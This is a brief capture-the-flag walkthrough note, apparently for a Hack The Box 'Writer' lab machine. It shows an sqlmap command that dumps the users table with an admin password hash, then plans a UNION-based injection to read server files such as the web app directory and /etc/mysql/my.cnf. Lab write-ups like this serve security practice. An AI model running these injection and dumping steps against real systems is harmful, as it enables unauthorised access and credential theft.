 # Administrative SQLMap


```bash
sqlmap -u "http://writer.htb/administrative" --forms -D writer -T users -C id,username,password,email --dump -batch

+----+----------+----------------------------------+------------------+
| id | username | password                         | email            |
+----+----------+----------------------------------+------------------+
| 1  | admin    | 118e48794631a9612484ca8b55f622d0 | admin@writer.htb |
+----+----------+----------------------------------+------------------+

```

* Password is not crackable, but uname is injectable. Let's try read files using union attack

![[Pasted image 20210801175900.png]]

* Finding the webapp directory

#### /var/www/writer.htb
#### /var/www/writer.htb/writer.wsgi
#### /var/www/writer.htb/writer/static/

![[Pasted image 20210801180733.png]]




#### /etc/mysql/my.cnf

![[Pasted image 20210801204710.png]]
